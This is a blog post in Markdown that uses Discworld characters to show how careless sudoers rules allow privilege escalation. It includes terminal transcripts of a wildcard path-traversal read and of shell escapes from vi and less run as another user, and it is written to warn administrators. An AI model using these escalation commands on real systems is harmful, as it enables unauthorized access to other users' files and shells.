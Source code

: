 ```yaml
---
title: 'sudo make me a sandwich'
draft: false
categories: [ daily ]
tags: [ ]
date: 2018-12-05-T08:08:50-04:00
---
```

# sudo make me a sandwich, then I'll pwn your fridge

Sudo is a program for Unix-like computer operating systems that allows users to run programs with the security privileges of another user. 
[wikipedia-sudo](https://en.wikipedia.org/wiki/Sudo "wikipedia-sudo")

Let’s say that we have a folder named `/luggage/`. The luggage is carrying some incredibly valuable things. Rincewind and twoflower are two users who have been traveling with this luggage for sometime. Because, rincewind doesn't want twoflower to read the octavo, but is fine if he looks at the camera, both which are located in the in the luggage. `/luggage/camera/` `/luggage/octavo/` We have allowed twoflower to run only the cat command as rincewind, and only in the location `/luggage/camera/` folder. Because, we don’t know what the photos will be named we will wildcard all the filenames in `/luggage/camera/*`

Rincewind feels pretty good that twoflower will never be able to read anything in the octavo and certainly never be able to read the spell located in the folder and file permissions are both set with 0700. 
Below is the output of `/etc/sudoers.d/012-twoflower` file and a command output.
```
#/etc/sudoers.d/012-twoflower
twoflower discworld=(rincewind) /bin/cat /luggage/camera/*

root@discworld:/ $ ls -lA /luggage
total 8
drwxr-xr-x 2 twoflower twoflower 4096 Dec  5 02:37 camera
drwx------ 2 rincewind rincewind 4096 Dec  5 02:40 octavo

root@discworld:/luggage $ ls -la /luggage/octavo/
total 12
drwx------ 2 rincewind rincewind 4096 Dec  5 02:40 .
drwxrwxrwx 4 root      root      4096 Dec  5 02:37 ..
-rwx------ 1 rincewind rincewind   67 Dec  5 02:40 spell
```

We feel pretty good about this setup, it has only allowed twoflower a single command in a single path. Next we let twoflower have at it. And then something terrible happens.

```

$ twoflower@discworld:/luggage$ sudo -l
Matching Defaults entries for twoflower on discworld:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User twoflower may run the following commands on discworld:
    (rincewind) /bin/cat /luggage/camera/*
$ twoflower@discworld:/luggage$ sudo -u rincewind cat /luggage/octavo/spell
Sorry, user twoflower is not allowed to execute '/bin/cat /luggage/octavo/spell' as rincewind on discworld.

$ twoflower@discworld:/luggage$ sudo -u rincewind cat /luggage/camera/../octavo/spell
Ashonai. Ebiris. Urshoring. Kvanti. Pythan. N'gurad. Feringomalee.
twoflower@discworld:/luggage$
```
Twoflower has read the spell inside of the octavo and everything has ended. How? what? This is simply the way that the wildcard works with sudo. It’s just turtles, all the way down. We should never use wildcards like this in sudo, ever.

Next, lock it down, we will take away the cat command and replace it with just VI and then no arguments can be passed to VI, because if a wildcarded path is included then VI will fall to the same directory traversal issue.
 
```
root@discworld:~# cat /etc/sudoers.d/012_twoflower-nopasswd
twoflower discworld=(rincewind) /usr/bin/vi ""

twoflower@discworld:/luggage/camera$ sudo -u rincewind vi /luggage/camera/../octavo/spell
Sorry, user twoflower is not allowed to execute '/usr/bin/vi /luggage/camera/../octavo/spell' as rincewind on discworld.
## you shall not pass(arguments)!

twoflower@discworld:/luggage/camera$ sudo -u rincewind vi
<vim session opens>
~
:e ../octavo/spell<enter>
...
Ashonai. Ebiris. Urshoring. Kvanti. Pythan. N'gurad. Feringomalee.
## awe nuts you can open the file if you traverse directories after VI is open

## ...it gets worse
~<<still in vim>>
:!/bin/bash<enter>
<new shell session opens from vim>

rincewind@discworld:/luggage/camera$
rincewind@discworld:/luggage/camera$ cd ../octavo/
rincewind@discworld:/luggage/octavo$ cat spell
Ashonai. Ebiris. Urshoring. Kvanti. Pythan. N'gurad. Feringomalee.
rincewind@discworld:/luggage/octavo$
## world sets on fire :(
```

This is even worse because now, not only can twoflower still open read and edit the spell in the octavo, VIM has enabled a shell escape as the sudoer. This is because VIM is invoking the shell after the session is launched as the sudoer. Honey badger (VIM) don’t care what the sudoers.d/file said. 
Alright next step, take away VIM, give twoflower less and ONLY a single file in a single folder, because less has to be better.

```
root@discworld:~# cat /etc/sudoers.d/012_twoflower-nopasswd
twoflower discworld=(rincewind) /usr/bin/less /luggage/camera/picture


twoflower@discworld:/luggage/camera$ sudo -u rincewind less picture
Sorry, user twoflower is not allowed to execute '/usr/bin/less picture' as rincewind on discworld.
## got it i need the whole path

twoflower@discworld:/luggage/camera$ sudo -u rincewind less /luggage/camera/picture

<less session begins>
i see things
/luggage/camera/picture (END)
<type>:q<enter>
<quit less session>
## start the sudo less command and pass the picture file


## can i traverse?
twoflower@discworld:/luggage/camera$ sudo -u rincewind less /luggage/camera/../octavo/spell
Sorry, user twoflower is not allowed to execute '/usr/bin/less /luggage/camera/../octavo/spell' as rincewind on discworld.
## traverse failed
## but wait...
twoflower@discworld:/luggage/camera$ sudo -u rincewind less /luggage/camera/picture

<less session begins>
i see things
/luggage/camera/picture (END)
<type>!bash<enter>

<new bash session starts>
rincewind@discworld:/luggage/camera$ cat ../octavo/spell
Ashonai. Ebiris. Urshoring. Kvanti. Pythan. N'gurad. Feringomalee.
## gdi
## less has launched an escaped shell as rincewind and now we can read the spell (facepalm)
```

Sudo is a super powerful and incredibly dangerous tool. The commands that are allowed sudo access need to be thought out and the functionality needs to be understood. None of these examples are exploits, or overflows. They are all working exactly as designed. Understand the privileges that you are granting with sudo, otherwise someone will get into your fridge, eat all your food and then burn down your house.

Great source for deeper explanation of restricted shells and commands.
[escaping-restricted-linux-shells](https://pen-testing.sans.org/blog/2012/06/06/escaping-restricted-linux-shells "escaping-restricted-linux-shells")


